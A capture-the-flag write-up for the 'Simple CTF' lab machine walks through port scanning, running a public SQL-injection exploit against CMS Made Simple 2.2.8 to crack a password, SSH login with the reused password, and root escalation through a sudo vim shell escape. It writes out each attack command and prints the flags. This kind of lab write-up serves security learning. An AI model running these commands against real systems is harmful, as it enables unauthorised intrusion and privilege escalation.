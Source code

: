 # Simple CTF
# [cd ../](../index.md)

# Start

## Scans
- [nmap](nmap.txt)  
  Open ports are `21`(anonymous login enabled), `80` and `2222`
- [dirsearch](dirsearch.png)
  Found `/simple`  
  Its a CMS Made Simple 2.2.8 and that is vulnerable to [sqli](https://www.exploit-db.com/exploits/46635)

## Exploiting the sqli
- Just download the exploit and run it with --crack mode  

```
python2 46635.py -u http://10.10.200.68/simple/ --crack -w ~/tools/wordlists/rockyou.txt
```
![cracked](cracked.png)
- So we got `mitch`:`secret`
## Whats on ftp?
![thonk](thonk.png)
- We can find `ForMitch.txt`
> Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!

Ohohohooo same pw :D

## Goin in
- Try ssh

```
ssh mitch@10.10.200.68 -p 2222
```
- Got in!!

### Got the user flag(`/home/mitch/user.txt`)
```
G00d j0b, keep up!
```

## Privesc to ROOT
- Just some basic enum

```
sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

OHHHH MAAAAAN thats cool

### Exploiting the vulnerability
```
sudo /usr/bin/vim

:!sh
```


# Got ROOT

![root](root.png)  

And got the root flag(`/root/root.txt`)
```
W3ll d0n3. You made it!
```
